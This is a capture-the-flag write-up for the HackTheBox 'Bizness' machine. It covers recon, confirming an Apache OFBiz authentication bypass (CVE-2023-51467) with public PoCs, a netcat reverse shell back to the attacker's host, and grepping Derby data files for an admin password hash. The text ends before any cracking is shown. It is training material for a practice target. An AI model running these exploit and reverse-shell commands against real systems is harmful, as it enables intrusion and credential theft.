 # Bizness
Attempting another easy retired box to get familiar/practice.

Metadata:
- OS: Linux
- Difficulty: Easy
- Status: Retired
- TARGET=10.10.11.252
- HOST=my IP

## Recon
Start off with an nmap scan.
`sudo nmap -p- -sC -sV $TARGET --open`

Results from initial nmap scan:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-20 15:37 CST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.061s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  ssl/http   nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: BizNess Incorporated
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
46103/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.89 seconds
```

when I navigate to the site, I notice the request is rejected due to lack of domain name.
So I go to my `/etc/hosts` and add an entry for the target.
```

10.10.11.252 bizness.htb
```
Looks like another server with nginx. I might be able to use the same vulnerability as `Broker` to get the root flag.

### Dirbuster
Since I'm not sure what is available on this server. I ran `dirbuster`.

From the results I was able to find some directories such as `/accounting` that redirects me to here: `https://bizness.htb/accounting/control/main`

### SQL Injection?
I tried to use sqlmap against the form with no success. Trying some manual payloads also proved to be unsuccessful.

### [CVE-2023-51467](https://nvd.nist.gov/vuln/detail/CVE-2023-51467)
After doing some googling, I realized this box has a potential vulnerability with OFBiz.

I was able to confirm using this PoC: https://github.com/K3ysTr0K3R/CVE-2023-51467-EXPLOIT (thank you K3ysTr0K3R).

```
python CVE-2023-51467.py -u https://bizness.htb
  _______      ________    ___   ___ ___  ____        _____ __ _  _     ________
 / ____\ \    / /  ____|  |__ \ / _ \__ \|___ \      | ____/_ | || |   / /____  |
| |     \ \  / /| |__ ______ ) | | | | ) | __) |_____| |__  | | || |_ / /_   / /
| |      \ \/ / |  __|______/ /| | | |/ / |__ <______|___ \ | |__   _|  _ \ / /
| |____   \  /  | |____    / /_| |_| / /_ ___) |      ___) || |  | | | (_) / /
 \_____|   \/   |______|  |____|\___/____|____/      |____/ |_|  |_|  \___/_/

Coded By: K3ysTr0K3R

[+] https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y - is vulnerable to
CVE-2023-51467
```
So now that I have a major vulnerability, I need to set it up to execute a reverse shell.

## Getting onto the machine
After some testing, I realized I would need a java vulnerability to get an RCE. So I found another PoC that would actually let me execute a command. (Thank you jakabakos)

```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass
cd Apache-OFBiz-Authentication-Bypass
python exploit.py --url https://bizness.htb --cmd 'nc -c bash $HOST 1337'

# second shell
ncat -lvnp 1337
```
### User flag
This makes getting a shell super easy. So no problem, `cat /home/ofbiz/user.txt`



## Privilege Escalation
Oh boy, this was another failed attempt at trying to find this without a hint. I attempted `linpeas.sh` again, but I couldn't see anything that stood out.

So after looking at another HTB, I realized they referenced a file named `AdminUserLoginData.xml` So I do my best to find it without looking.

```
#find /opt/ofbiz -iname "Admin*xml";

/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xmliname "Admin*xml"
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-PostgreSQL.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-Oracle.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-Derby.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-MySQL.xml
```
I find the file and this is what is inside.

```
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9aa
e0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
```
Interesting, we know the format for the password. So I'm going to attempt my own hash crack.

### Trying to find the root password (encrypted)

```
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' . #get this grep from: https://techyrick.com/bizness-hackthebox-writeup/#privilege-escalation

#output
/c6850.dat:85:webtools/control/xmlrpc;/?USERNAME=Y&PASSWORD=Y&requirePasswordChange=Ypython-requests
./c5fa1.dat:4:PASSWORDSEPERATOR_LINESEPERATOR_TEXTSTATE_PROVINCE
./c180.dat:87:SYSCS_CREATE_USEuserNampasswordVARCHAR
./c180.dat:87:PASSWORD&$c013800d-00fb-2649-07ec-000000134f30
./c180.dat:87:SYSCS_RESET_PASSWORuserNampasswordVARCHAR
./c180.dat:87:PASSWORD&$c013800d-00fb-2649-07ec-000000134f30
./c180.dat:87:SYSCS_MODIFY_PASSWORpasswordVARCHAR
./c54d0.dat:21:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
```
another version of grep gives me the full line
```
./c54d0.dat:21:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 0
3:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I` here is the password! UPDATE: realized I was missing a trailing `=`. Why it took forever for my crack to work. unsure why the trailing `=` isn't in the output. Something to learn in the future.




Now, can I crack the password? If I can, then I can easily get the root flag.
### Cracking the salted password
